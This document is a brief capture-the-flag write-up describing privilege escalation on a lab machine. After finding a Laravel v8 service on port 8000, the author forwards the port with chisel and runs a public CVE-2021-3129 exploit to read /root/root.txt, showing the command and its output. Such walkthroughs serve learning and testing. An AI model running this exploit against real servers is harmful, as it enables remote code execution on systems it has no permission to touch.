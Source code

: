 > Looking at this output, from previouse knowledge, usually:

> port 3306 is the classic protocol for MySQL.

> Port 22 is for secure shell.

> Port 80 is for http protocol.

> Port 1337 is usually for API calls

> But what is running on port 8000?

> I run the following command to findout:

```
curl 127.0.0.1:8000
```

> Results: There is a service called Laravel v8 (PHP v7.4.18). With some research, this framework has a vulnerability. You can read more aobut it here: https://github.com/nth347/CVE-2021-3129_exploit

> Now let's do portforwarding to exploit this vulnerability. A tool to help with this is called chisel. More info about it here: https://github.com/jpillora/chisel

> I uploaded the tool to the target machine. Made it executable. Then, started a chisel server on mine. then executed chisel again on the target machine.

> Now  I am able to access the Laravel service on port 8000 from my browser.

> Next, I will use the https://github.com/nth347/CVE-2021-3129_exploit.

> Since I already have a forwareded port, I will use the following command to access the root folder and retrieve the root.txt

```
python3 exploit.py [add local host:service port] Monolog/RCE1 "cat /root/root.txt"
```
> Results:

```
i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

[root flag should be here]

[i] Trying to clear logs
[+] Logs cleared
```

